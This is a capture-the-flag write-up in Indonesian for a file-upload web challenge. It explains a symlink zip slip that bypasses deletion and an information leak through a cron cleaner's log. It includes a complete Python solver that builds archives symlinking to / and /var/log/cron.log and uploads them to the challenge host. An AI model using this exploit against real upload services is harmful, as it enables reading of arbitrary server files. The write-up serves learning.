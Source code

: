 ## [470 pts] 📝 Writeup

![](img/1.png)

Vuln Analysis

1. Zip Slip
2. Info Leak

Exploit

1. Zip Slip

![](img/2.png)

Secara kasat mata code tersebut sepertinya aman terhadap serangan Zip Slip dimana ketika file atau directory adalah symlink maka program akan menghapus. Tapi line code berikut ini akan mencegah penghapusan file tersebut terjadi

| ifb"FLAG{FAKEFLAG}"incontent:`` returnJSONResponse(content={"message":f"writeup is valid"}, status_code=200) |
| ------------------------------------------------------------------------------------------------------------ |

Setelah file di extract, program akan melakukan checking secara iterative terhadap file jika isi content tersebut memiliki string FLAG{FAKEFLAG} maka program akan melakukan return dimana return akan langsung memberhentikan fungsi tersebut dan proses looping tersebut.

Untuk proses checking dilakukan secara ascending, maka kita dapat membuat file yang berisi string FLAG{FAKEFLAG} bernama a dan file symlink bernama z.

2. Info Leak

Terdapat sebuah cronjob

*/3 * * * * /usr/bin/python3 /app/module/cleaner.py >> /var/log/cron.log 2>&1

![](img/3.png)

Sama seperti proses upload, dimana proses cleaner dilakukan secara iterative jika kita mengupload symlink folder ke server

![](img/4.png)

Maka saat proses penghapusan ketika program menuju z akan ter redirect ke / dan kembali melakukan file deletion. Tetapi dikarenakan tidak memiliki permission untuk melakukan deletion maka exception akan terjadi.

![](img/5.png)

Dan akan tersimpan di /var/log/cron.log

Step To reproduce

1. Lakukan auth ke pada webservice
2. Setelah login, upload zipslip yang berisikan folder symlink ke /
3. Tunggu proses cleaner berjalan
4. Upload zipslip yang berisikan file symlink ke /var/log/cron.log
5. Get Flag

![](img/6.png)

solver.py

```python
import os
import zipfile
import requests
import random
import string
def generate_random_string(length):
   characters = string.ascii_letters + string.digits
   random_string = ''.join(random.choice(characters) for _ in range(length))
   return random_string
def remove(s):
   try:
       os.remove(s)
   except:
       pass
def add_to_zip(zipf, path, arcname=None):
   if os.path.islink(path):
       target = os.readlink(path)
       zipinfo = zipfile.ZipInfo(arcname or path)
       zipinfo.create_system = 3
       zipinfo.external_attr = 0o120777 << 16
       zipf.writestr(zipinfo, target)
   elif os.path.isdir(path):
       for root, dirs, files in os.walk(path):
           for name in dirs + files:
               full_path = os.path.join(root, name)
               arcname = os.path.relpath(full_path, os.path.dirname(path))
               add_to_zip(zipf, full_path, arcname)
   else:
       zipf.write(path, arcname or path)

def create_zip_with_symlinks(zip_path, source_dir, singleFile):
   with zipfile.ZipFile(zip_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
       add_to_zip(zipf, source_dir)
       add_to_zip(zipf, singleFile)


uid = generate_random_string(5)
# AUTHENTICATION
url = "http://206.189.32.77:49447"
data = f"username=bengskyganteng{uid}&password=123"
ses = requests.Session()
headers = {"Content-type":"application/x-www-form-urlencoded"}
ses.post(url+"/signup", data=data, headers=headers)
ses.post(url+"/signin", data=data, headers=headers)
remove('z')
remove('a')
remove('bengsky-exploit.zip')
with open("a", "w") as f:
   f.write("FLAG{FAKEFLAG}")
source = 'z'
symlink_path = '/'
os.symlink(symlink_path, source)
output_zip = 'bengsky-exploit.zip'
create_zip_with_symlinks(output_zip, source, 'a')
boundary = "WebKitFormBoundary"+uid
raw_data = [
   f'--{boundary}\r\n'.encode(),
   f'Content-Disposition: form-data; name="file"; filename="{uid}.zip"\r\n'.encode(),
   'Content-Type: application/zip\r\n\r\n'.encode(),
   open('bengsky-exploit.zip', 'rb').read()+b"\r\n",
   f'--{boundary}--\r\n'.encode()
]
headers = {"Content-type":"multipart/form-data; boundary="+boundary}
response = ses.post(url+"/upload_writeup", data=b''.join(raw_data), headers=headers)
remove('z')
remove('a')
remove('bengsky-exploit.zip')
## phase 2
uid2 = generate_random_string(5)
with open("a", "w") as f:
   f.write("FLAG{FAKEFLAG}")
source = 'z'
symlink_path = '/var/log/cron.log'
os.symlink(symlink_path, source)
output_zip = 'bengsky-exploit.zip'
create_zip_with_symlinks(output_zip, source, 'a')
boundary = "WebKitFormBoundary"+uid2
raw_data = [
   f'--{boundary}\r\n'.encode(),
   f'Content-Disposition: form-data; name="file"; filename="{uid2}.zip"\r\n'.encode(),
   'Content-Type: application/zip\r\n\r\n'.encode(),
   open('bengsky-exploit.zip', 'rb').read()+b"\r\n",
   f'--{boundary}--\r\n'.encode()
]
headers = {"Content-type":"multipart/form-data; boundary="+boundary}
response = ses.post(url+"/upload_writeup", data=b''.join(raw_data), headers=headers)
flag = ses.get(url+f"/uploads/{uid2}/z").text

print(flag)
```

### Flag: META4SEC{sl1p1ng_4_r4c1ng_z1p_h3h3h3}
